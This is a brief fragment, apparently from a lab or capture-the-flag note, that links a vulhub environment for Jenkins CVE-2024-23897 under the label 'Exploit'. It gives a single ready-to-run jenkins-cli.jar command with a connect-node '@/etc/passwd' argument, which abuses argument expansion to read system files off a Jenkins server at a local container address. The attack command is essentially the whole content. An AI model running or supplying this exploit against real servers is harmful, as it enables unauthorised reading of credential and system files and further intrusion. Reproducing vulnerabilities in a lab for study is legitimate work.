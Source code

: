 
[Exploit](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"

